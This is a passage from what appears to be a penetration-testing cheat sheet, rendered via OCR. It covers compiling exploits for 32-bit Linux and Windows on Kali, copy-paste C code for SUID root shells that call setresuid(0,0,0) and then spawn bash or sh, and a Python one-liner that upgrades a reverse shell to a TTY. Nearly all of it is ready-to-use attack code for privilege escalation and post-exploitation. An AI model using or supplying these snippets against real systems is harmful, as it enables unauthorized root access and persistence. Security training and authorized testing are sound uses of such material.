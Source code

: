 ### **GCC Compile 32Bit Exploit on 64Bit Kali**
Handy for cross compiling 32 bit binaries on 64 bit attacking machines.

|**Command**|**Description**|
| :-: | :-: |
|gcc -m32 exploit.c -o exploit|Cross compile 32 bit binary on 64 bit Linux|

### **Compile Windows .exe on Linux**
Build / compile windows exploits on Linux, resulting in a .exe file.

|**Command**|**Description**|
| :-: | :-: |
|i586-mingw32msvc-gcc exploit.c -lws2\_32 -o exploit.exe|Compile windows .exe on Linux|

## **SUID Binary**
Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.

below are some quick copy and pate examples for various shells:

### **SUID C Shell for /bin/bash**
int main(void){

`       `setresuid(0, 0, 0);

`       `system("/bin/bash");

}
### **SUID C Shell for /bin/sh**
int main(void){

`       `setresuid(0, 0, 0);

`       `system("/bin/sh");

}

### **Building the SUID Shell binary**
gcc -o suid suid.c

For 32 bit:

gcc -m32 -o suid suid.c

## **TTY Shells**
Tips / Tricks to spawn a TTY shell from a limited shell in Linux, useful for running commands like su from reverse shells.

### **Python TTY Shell Trick**
python -c 'import pty;pty.spawn("/bin/bash")'
